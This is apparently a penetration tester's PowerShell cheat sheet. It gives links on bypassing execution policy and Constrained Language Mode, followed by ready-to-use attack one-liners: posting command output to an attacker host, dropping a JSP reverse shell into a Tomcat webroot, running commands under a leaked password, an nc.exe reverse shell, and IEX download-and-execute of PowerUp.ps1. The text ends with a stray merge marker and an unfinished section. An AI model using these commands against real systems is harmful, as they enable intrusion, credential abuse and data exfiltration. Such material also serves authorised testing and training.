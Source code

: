 # powershell

* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6
* https://adsecurity.org/?p=2921
* https://blogs.technet.microsoft.com/kfalde/2017/01/20/pslockdownpolicy-and-powershell-constrained-language-mode/
* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6
* https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/
* https://pen-testing.sans.org/blog/2016/05/25/sans-powershell-cheat-sheet/
* https://blog.backslasher.net/wget-in-powershell-v3.html
* https://pentestn00b.wordpress.com/2017/03/20/simple-bypass-for-powershell-constrained-language-mode/
* https://medium.com/tsscyber/pentesting-and-hta-bypassing-powershell-constrained-language-mode-53a42856c997
* https://bohops.com/2018/01/07/executing-commands-and-bypassing-applocker-with-powershell-diagnostic-scripts/

Bypass of CLM : https://github.com/padovah4ck/PSByPassCLM

## Data exfiltration :

```
Invoke-WebRequest -Method POST -Body (whoami | Out-String) -Uri http://10.10.10.10:4444
```

## file upload

```
Invoke-WebRequest 'http://10.10.10.10/jsp-reverse.jsp' -OutFile c:\tomcat\apache-tomcat\webapps\ROOT\Eewoo8EiVufohkiTh1Duunue4.jsp
```

## Other user execution

```
$password = 'leaked-passowrd' | ConvertTo-SecureString -AsPlainText -force; $username='WINDEV\user';$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username, $password;
Invoke-Command -Credential $cred -ComputerName . -ScriptBlock {Invoke-WebRequest -Method POST -Body (whoami | Out-String) -Uri http://10.10.10.10:4444}
```

## Other user execution reverse shell
```
Invoke-Command -Credential $cred -ComputerName . -ScriptBlock {Invoke-WebRequest -Method POST -Body (c:\users\user\nc.exe -e cmd.exe 10.10.10.10 443 2>&1 | Out-String) -Uri http://10.10.10.10:4444}
```

## Load on the fly 

```
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/PowerSploit/Privesc/PowerUp.ps1')
=======
Credential use :

```

